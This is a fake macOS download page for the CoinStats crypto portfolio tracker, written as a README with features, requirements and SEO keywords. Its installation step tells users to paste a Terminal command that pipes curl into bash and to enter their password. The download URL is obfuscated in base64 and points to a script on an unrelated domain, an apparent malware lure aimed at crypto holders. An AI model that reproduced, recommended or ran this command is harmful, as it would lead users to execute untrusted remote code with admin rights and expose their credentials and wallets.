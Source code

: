 # 📊 CoinStats for macOS – Crypto Portfolio Tracker & Market Analysis  

## 📌 About CoinStats  
CoinStats is a leading cryptocurrency portfolio tracker and market analytics platform for macOS. With support for over 300 exchanges and wallets, CoinStats allows you to manage your crypto investments, track performance, and monitor the market in real time.  

From Bitcoin to DeFi tokens, CoinStats gives you the insights you need to make smarter investment decisions, all in one sleek macOS app.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![CoinStats Screenshot 1](https://coinstats.app/blog/wp-content/uploads/2020/05/appScreens_Coinstats-Blog-1.png)  
![CoinStats Screenshot 2](https://coinstats.app/blog/wp-content/uploads/2023/11/October_Last_Updates_Blog.png)  

---

## 🚀 Key Features  
- 🌐 **300+ Exchange & Wallet Support** – Sync all your accounts in one place.  
- 📈 **Portfolio Tracking** – View and analyze your entire crypto portfolio.  
- ⏱ **Real-Time Data** – Live price updates and market movements.  
- 🔔 **Custom Alerts** – Price, market cap, and volume notifications.  
- 📰 **Crypto News Feed** – Stay updated with the latest market news.  
- 📱 **Cross-Platform Access** – Seamless sync between devices.  
- 🛠 **DeFi Portfolio Tracking** – Monitor your DeFi investments.  
- 📊 **Advanced Analytics** – Gain insights into your holdings and performance.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 250 MB for installation  
- **Others:** Internet connection for market data and sync  

---

## 🔍 SEO Keywords  
coinstats mac · coinstats macos · mac crypto tracker · coinstats portfolio · coinstats exchange sync · coinstats defi · coinstats alerts · crypto tracking software mac · cryptocurrency portfolio mac · coinstats download mac
